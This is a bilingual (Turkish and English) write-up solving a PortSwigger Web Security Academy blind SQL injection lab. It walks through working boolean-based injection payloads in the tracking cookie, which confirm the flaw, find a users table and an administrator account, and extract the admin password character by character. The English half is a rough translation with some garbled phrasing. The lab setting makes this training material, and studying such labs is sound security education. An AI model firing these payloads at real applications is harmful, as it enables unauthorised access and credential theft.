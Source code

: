 # BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platformu; içerisinde bulunan Web Security ve daha bir çok alandaki eğitimlere ücretsiz erişim hakkı tanımaktadır.
->Bunun yanında üretmiş oldukları çok fonksiyonlu BurpSuit aracının sektör açısından önemi yadsınamaz.
->Bu proje Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11 için çözüm adımlarını içermektedir.
->BurpSuit'in Community Edition sürümü kullamılmıştır.
_________________________________________________________________________________________________________________________________

# BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platform; Free access to trainings in Web Security and many other areas is provided.
->In addition, it is undeniable to demonstrate the performance of the multifunctional BurpSuit vehicles that I have produced.
->This project contains the solution steps for Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11.
->Community Edition of BurpSuit is used.




                                <---Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11--->
                                ______________________________________________________________________________
                                
 
Blind SQLi

Zaafiyet Parametresi - Cookie

Hedefler:

1-) Admin şifresini numaralandır.

2-) Admin olarak giriş yap.

Öncelikle bir zaafiyetin tespiti ardından sömürülmesi gerektiğini biliyoruz. Bu sebeple ilk adımımız zaafiyet bulunduğu belirtilen Cookie üzerinden doğru/yanlış sorgular yaparak zaafiyetin varlığından emin olmamız gerekmekte.
Çözüm boyunca "Welcome back" sonucu aldığımız her sorgulama doğrulama yapmış olduğumuz anlamına gelmektedir. Eğer Response alanında bu veriyi göremiyorsak ya yaptığımız uygulamada yanlışlık vardır ya da olumsuz dönüş alıyoruzdur.
_______________________________________________________________________________________________________________________________________________________________________

Analiz:

1-) Zaafiyetin doğru olup olmadığının kontrolü.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'

-> Eğer bu işlem işe yararsa -> dönüş doğru olacak -> Welcome back message

-> Eğer bu işlem işe yaramazsa -> dönüş olmayacak -> No Welcome back message

Sql tarafında çalıştırıldığını tahmin edebileceğimiz sorguları hayal etmemiz ve deneme yanılma yolu ile doğruluğunu tespit etmemiz gerekli.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'

->Yanlış -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'

-> Doğru -> Welcome back


_______________________________________________________________________________________________________________________________________________________________________


2-) Bir Kullanıcı Tablosu Olup Olmadığını Kontrol Et

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'

-> users tablosu databasede mevcut.

_______________________________________________________________________________________________________________________________________________________________________


3-) Admin kullancısının Users tablosunda olup olmadığını kontrol et.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'

-> Admin kullanıcısı databasedeki users tablosunda mevcut.

_______________________________________________________________________________________________________________________________________________________________________


4-) Admin şifresinin numaralandır.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'

-> Kaba kuvvet saldırı gibi olduğundan mantıklı bir sorgu olmayıp istediğimiz sonucu vermeyecektir.

*Öncelikle password uzunluğunu bulmamız lazım.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 

///->20 değerine kadar denemeler yapılabilir ancak

BurpSuit yardımı ile de kolaylıkla bulunması mümkün.

->Şifre uzunluğu 20 karakter.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20

a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9


***********************************************************************************************************************************************************************


Goals:

1-) Number the admin password.

2-) Login as admin.

We know that first of all, a vulnerability must be detected and then exploited. For this reason, our first step is to make sure that the vulnerability exists by making correct/false queries on the Cookie, which is stated to be vulnerable.
Every query we get a "Welcome back" result throughout the solution means that we have verified. If we cannot see this data in the Response field, either there is an error in our application or we receive a negative response.

_______________________________________________________________________________________________________________________________________________________________________

Analysis:

1-) Checking whether the vulnerability is correct.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'

-> If this works -> return will be correct -> Welcome back message

-> If this doesn't work -> no return -> No Welcome back message

We need to imagine the queries that we can guess to be run on the SQL side and determine their accuracy by trial and error.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'

->False -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'

-> Correct -> Welcome back

_______________________________________________________________________________________________________________________________________________________________________


2-) Check if there is a User Table

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'

-> users table exists in database.

_______________________________________________________________________________________________________________________________________________________________________


3-) Check if the Admin user is in the Users table.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'

-> The admin user exists in the users table in the database.

_______________________________________________________________________________________________________________________________________________________________________


4-) Number of the admin password.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'

-> Since it is like a brute force attack, it is not a logical query and will not give the result we want.

*First we need to find the password length.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 

///-> Attempts up to 20 can be done but It can be easily found with the help of BurpSuit.

->Password length 20 characters.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20

a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9

